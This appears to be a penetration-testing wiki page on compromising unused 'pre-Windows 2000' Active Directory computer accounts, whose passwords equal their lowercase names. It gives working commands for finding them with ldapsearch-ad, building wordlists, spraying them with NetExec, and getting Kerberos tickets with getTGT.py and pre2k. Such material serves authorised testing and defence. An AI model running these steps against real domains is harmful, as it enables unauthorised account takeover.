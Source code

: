 ## Theory
When a new computer account is configured as "pre-Windows 2000 computer", its password is set based on its name (i.e. lowercase computer name without the trailing $). When it isn't, the password is randomly generated.
Once an authentication occurs for a pre-Windows 2000 computer, according to [TrustedSec's blogpost](https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/), its password will usually need to be changed.
## Exploit
Finding computer accounts that have been "pre-created" (i.e. manually created in ADUC instead of automatically added when joining a machine to the domain), but have never been used can be done by filtering the UserAccountControl attribute of all computer accounts and look for the value 4128 (32|4096) (deductible via the UserAccountControl flags):

- 32 - `PASSWD_NOTREQD`
- 4096 - `WORKSTATION_TRUST_ACCOUNT`

The [ldapsearch-ad](https://github.com/yaap7/ldapsearch-ad) tool can be used to find such accounts. Once "pre-created" computer accounts that have not authenticated are found, they should be usable with their lowercase name set as their password. This can be tested with NetExec (Python) for instance.
```bash
# 1. find pre-created accounts that never logged on
ldapsearch-ad -l $LDAP_SERVER -d $DOMAIN -u $USERNAME -p $PASSWORD -t search -s '(&(userAccountControl=4128)(logonCount=0))' | tee results.txt

# 2. extract the sAMAccountNames of the results
cat results.txt | grep "sAMAccountName" | awk '{print $4}' | tee computers.txt

# 3. create a wordlist of passwords matching the Pre-Windows 2000 generation, based on the account names
cat results.txt | grep "sAMAccountName" | awk '{print tolower($4)}' | tr -d '$' | tee passwords.txt

# 4. bruteforce, line per line (user1:password1, user2:password2, ...)
nxc smb $DC_IP -u "computers.txt" -p "passwords.txt" --no-bruteforce
```
!!! note
    You will see the error message `STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT` when you have guessed the correct password for a computer account that has not been used yet.

Testers can then change the Pre-Windows 2000 computer accounts' password (i.e. [rpcchangepwd.py](https://github.com/SecureAuthCorp/impacket/pull/1304), [kpasswd.py](https://github.com/SecureAuthCorp/impacket/pull/1189), etc.) in order to use it.
!!! info
    Alternatively, Filip Dragovic was able to authenticate using Kerberos without having to change the account's password
    ```bash
    getTGT.py $DOMAIN/$COMPUTER_NAME\$:$COMPUTER_PASSWORD
    ```
We also can automatically do aforementioned step by using [pre2k](https://github.com/garrettfoster13/pre2k)
```bash
# Unauthenticated usage
pre2k unauth -d domain -dc-ip dc_ip -inputfile list_machine_pre2k_account$
```